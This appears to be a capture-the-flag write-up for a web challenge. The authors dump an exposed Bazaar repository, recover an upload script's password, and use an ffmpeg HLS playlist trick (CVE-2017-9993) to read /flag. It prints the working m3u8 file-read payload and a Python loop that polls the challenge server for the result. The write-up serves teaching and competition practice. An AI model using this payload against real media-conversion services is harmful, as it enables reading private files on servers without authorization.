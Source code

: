 # Video bazar (web, 936p, 13 solved)

## Description

In the task we start with a webpage which asks us for some key.
We know that flag is in `/flag`

## Initial analysis

We spent some time trying to figure out how to get the key.
Finally we noticed the task name - maybe they are hinting at bazaar, a rather unpopular git-like VCS?
It was featured last week on another CTF, so it was easier to come by this.

Bingo, we get 403 and not 404 on `/.bzr`

We grab https://github.com/shpik-kr/bzr_dumper and proceed to dump the repository.

## Source code analysis

From the source code of `index.php` we get the password:

```php

<?php

if(isset($_GET['asd'])){
if($_GET['asd']==='THIS_IS_THE_NEW_WAY_TO_DO_STUFF'){
	$a=True;
}else{
	echo 'wroong';
}
}
?>
```

And we can access the file upload feature.
We also have the [uploader source code](upload_file.php).

The important points from this file are:

- We can upload only files with certain extensions `"avi", "mp4", "wma","m3u8"`
- We can convert those files using `ffmpeg` into `'avi','mp4','wav','gif'`
- Filename we provide is ignored and md5 from it is used, so no way to do some command injection
- There is some weird blacklist for the contents of the files we can upload, which is weird considering those are all binary files, except for the last one...
- `ffmpeg` is run with a special parameter `-allowed_extensions ALL`, which according to google is `a private option of the HLS demuxer`, so again playlists
- We have 0.5s to grab the result before it's removed

## ffmpeg CVEs

The fact that we can use playlist files `m3u8`, that there is blacklist for some plaintext values and also weird parameter `-allowed_extensions ALL` all point in one direction -> we need to upload a weird playlist!

We stumbled upon links like https://patchwork.ffmpeg.org/project/ffmpeg/patch/20170603192004.1437-1-michael@niedermayer.cc/ and finally we found CVE-2017-9993 and some articles:

- https://hackmd.io/@calee/Sy3NXynDZ?type=view
- https://www.cnblogs.com/alisecurity/p/7273529.html

From the last one we grab the payload:

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:1.0
GOD.txt
#EXTINF:1.0
/flag
#EXT-X-ENDLIST
```

Apparently the trick is that `ffmpeg` notices the `.txt` and thinks all next entries will be textfiles as well, regardless of their extensions.

We submit a request to convert this into a gif, while runing a script:

```python
def main():
    while True:
        r = requests.get("http://35.211.92.233:8001/upload/output1_624e9e5c339b8f5751b84303f9389fb1.m3u8.gif")
        if r.status_code != 404:
            print(r.status_code)
            print(r.content.encode("hex"))
            open('out.gif', 'wb').write(r.content)
```

And we recover our gif:

![](out.gif)
